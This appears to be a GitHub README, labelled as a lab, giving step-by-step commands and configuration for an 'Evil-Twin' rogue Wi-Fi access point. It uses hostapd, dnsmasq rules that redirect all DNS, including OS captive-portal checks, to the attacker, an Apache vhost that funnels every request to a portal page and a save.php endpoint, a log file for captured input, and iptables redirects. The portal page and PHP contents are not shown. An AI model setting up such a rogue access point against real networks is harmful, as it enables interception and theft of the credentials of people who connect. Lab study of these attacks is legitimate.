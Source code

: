 # Evil-Twin
Set up your LAB
install:
```bash
sudo apt update
sudo apt install -y hostapd dnsmasq lighttpd php
``  

```
dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1

```

hostapd.conf:
```bash
interface=wlan0
driver=nl80211
ssid=LabPortal
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```



wlan0 interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up

```

PHP + Apache:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo systemctl enable --now apache2
```

start:
```bash
sudo hostapd hostapd.conf
sudo dnsmasq -C dnsmasq.conf
```

New Models:
```bash
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

Create Folder:
```bash
sudo mkdir -p /var/www/captive
```
Create File:
```bash
/var/www/captive/index.html
/var/www/captive/save.php
```
Create Log file:
```bash
touch /var/log/ca.log
```
Permission to log file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

New Vhost:
```bash
nano /etc/apache2/sites-available/captive.conf
```
```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive


    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

 
    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

   
    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53


```
